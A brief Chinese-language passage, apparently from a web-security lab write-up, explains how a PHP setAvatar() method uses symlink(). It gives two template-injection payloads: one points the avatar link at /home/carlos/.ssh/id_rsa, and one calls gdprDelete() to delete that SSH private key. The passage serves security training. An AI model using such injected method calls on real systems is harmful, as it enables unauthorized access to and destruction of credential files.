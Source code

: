 这里发现`setAvatar()`里面有`symlink()`函数可以改变`avatarLink`。

> ```php
> symlink ( string $target , string $link ) : bool
> ```
>
> **symlink()** 对于已有的 `target` 建立一个名为 `link` 的符号连接。

所以：

* `blog-post-author-display=user.setAvatar('/home/carlos/.ssh/id_rsa','image/jpeg')`

    先用这个去改变`avatarLink`，指向要删除的文件。

* `blog-post-author-display=user.gdprDelete()`

    执行删除。（执行删除之前一定要看看，上面那个命令执行成功没有，小心执行了删除却没有删掉文件）
